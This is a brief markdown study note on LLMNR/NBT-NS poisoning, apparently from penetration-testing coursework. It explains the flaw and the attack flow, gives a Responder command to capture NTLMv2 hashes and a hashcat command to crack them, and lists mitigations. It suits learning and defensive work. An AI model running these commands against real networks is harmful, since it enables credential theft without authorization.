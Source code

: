 # LLMNR Poisoning

## What is LLMNR?

- Used to identify hosts when DNS fails
- Previously known as NBT-NS
- Key flaw: services utilize a user's username and NTLMv2 hash when appropriately responded too

## Attack Flow

- Trick victim into connecting to malicious server under our control
- Capture hash
- Service name cannot be resolvable over DNS

## Exploitation

```bash
# Run responder
python responder.py -I tun0 -rdwv

# Crack hash with hashcat
hashcat -a 0 -m 5600 hashes.txt rockyou.txt
```

## Mitigation

- Disable LLMNR and NBT-NS
- If the functions can't be disabled, then
  - require Network Access Control
  - require strong password policy
